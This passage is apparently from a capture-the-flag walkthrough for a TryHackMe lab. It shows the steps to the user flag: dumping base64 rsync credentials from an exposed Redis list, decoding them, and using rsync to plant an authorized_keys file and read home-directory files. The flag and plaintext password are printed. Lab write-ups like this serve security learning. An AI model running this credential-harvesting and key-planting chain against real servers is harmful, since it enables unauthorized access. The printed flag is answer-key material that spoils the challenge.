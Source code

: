 ```bash
```

<h2>User Flag</h2>

> 1.3. <em>What is the user flag? (user.txt)</em><br><a id='1.3'></a>
>> <code><strong>THM{da7c20696831f253e0afaca8b83c07ab}</strong></code>

<p>Used redis <code>LRANGE</code> command. It is a command that returns the specified elements of the list stores at the key. The offsets start and stop are zero-based indexes, with 0 being the first element of the list (the head of the list), 1 being the next element, and so on.  These offsets can also be negative numbers indicating offsets starting at the end of the list. For example, -1 is the last element of the list, -2 the penultimate, and so on.</p>

```bash
Target_IP:6379> LRANGE authlist 1 10
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
Target_IP:6379> 
```

<p>Decode it, discovered location, and credentials.</p>

```bash
~/VulnNetInternal# echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
:~/VulnNetInternal# 
```

<p>Explored <code>rsync</code>: port 873.</p>

```bash
~/VulnNetInternal#
~/VulnNetInternal# rsync authorized_keys rsync://rsync-connect@Target_IP/files/sys-internal/.ssh/
Password: 
drwxrwxr-x          4,096 2021/02/06 11:43:14 .
...
~/VulnNetInternal# ls
files
:~/VulnNetInternal# cd files
:~/VulnNetInternal/files# dir
sys-internal
:~/VulnNetInternal/files# cd sys-internal
:~/VulnNetInternal/files/sys-internal# dir
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  user.txt  Videos
:~/VulnNetInternal/files/sys-internal# cat user.txt
THM{da7c20696831f253e0afaca8b83c07ab}
:~/VulnNetInternal/files/sys-internal#
...
~/VulnNetInternal# rsync rsync://rsync-connect@Target_IP/files
Password: 
drwxr-xr-x          4,096 2021/02/01 12:51:14 .
drwxr-xr-x          4,096 2021/02/06 12:49:29 sys-internal
:~/VulnNetInternal# rsync rsync://rsync-connect@Target_IP/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 12:49:29 .
-rw-------             61 2021/02/06 12:49:28 .Xauthority
lrwxrwxrwx              9 2021/02/01 13:33:19 .bash_history
-rw-r--r--            220 2021/02/01 12:51:14 .bash_logout
-rw-r--r--          3,771 2021/02/01 12:51:14 .bashrc
-rw-r--r--             26 2021/02/01 12:53:18 .dmrc
-rw-r--r--            807 2021/02/01 12:51:14 .profile
lrwxrwxrwx              9 2021/02/02 14:12:29 .rediscli_history
-rw-r--r--              0 2021/02/01 12:54:03 .sudo_as_admin_successful
```